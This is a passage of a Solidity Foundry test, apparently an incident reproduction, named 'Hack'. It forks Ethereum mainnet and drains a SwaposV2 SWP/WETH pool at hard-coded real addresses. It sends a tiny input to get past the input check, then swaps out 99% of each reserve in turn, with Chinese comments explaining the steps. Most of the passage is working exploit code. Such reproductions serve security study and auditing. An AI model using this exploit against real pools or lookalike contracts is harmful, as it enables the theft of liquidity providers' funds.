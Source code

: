 ```solidity
}

interface IERC20 {
    function balanceOf(address owner) external view returns (uint256);

    function transfer(address to, uint256 value) external returns (bool);
}

IWETH constant WETH = IWETH(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
IERC20 constant SWP_Token = IERC20(0x09176F68003c06F190ECdF40890E3324a9589557);
// SWP <=> WETH
ISWP constant SWPV2_Pool = ISWP(0x8ce2F9286F50FbE2464BFd881FAb8eFFc8Dc584f);

contract Hack is Test {
    function setUp() public {
        vm.createSelectFork("theNet", 17057400);
        deal(address(WETH), address(this), 100);
        vm.label(address(WETH), "WETH");
        vm.label(address(SWPV2_Pool), "SWPV2Pool");
        vm.label(address(SWP_Token), "SWPTOKEN");
    }

    function testPoc() public {
        // 绕过 "SwaposV2: INSUFFICIENT_INPUT_AMOUNT"
        WETH.transfer(address(SWPV2_Pool), 10);

        (uint112 token0, uint112 token1, ) = SWPV2_Pool.getReserves();
        emit log_named_decimal_uint(
            "[before] token0(SWP_Token) form getReserves in pool",
            token0,
            18
        );
        emit log_named_decimal_uint(
            "[before] token1(WETH) getReserves in pool",
            token1,
            18
        );

        //划走99% 的 token0 或 token1都可以，二选一
        SWPV2_Pool.swap((token0 * 99000) / 100000, 0, address(this), "");

        (token0, token1, ) = SWPV2_Pool.getReserves();
        emit log_named_decimal_uint(
            "[after] token0(SWP_Token) form getReserves in pool",
            token0,
            18
        );
        emit log_named_decimal_uint(
            "[after] token1(WETH) getReserves in pool",
            token1,
            18
        );

        //故技重施，划走另外一个币
        SWP_Token.transfer(address(SWPV2_Pool), 10);
        SWPV2_Pool.swap(0, (token1 * 99000) / 100000, address(this), "");

        (token0, token1, ) = SWPV2_Pool.getReserves();
        emit log_named_decimal_uint(
            "[after] token0(SWP_Token) form getReserves in pool",
            token0,
            18
        );
```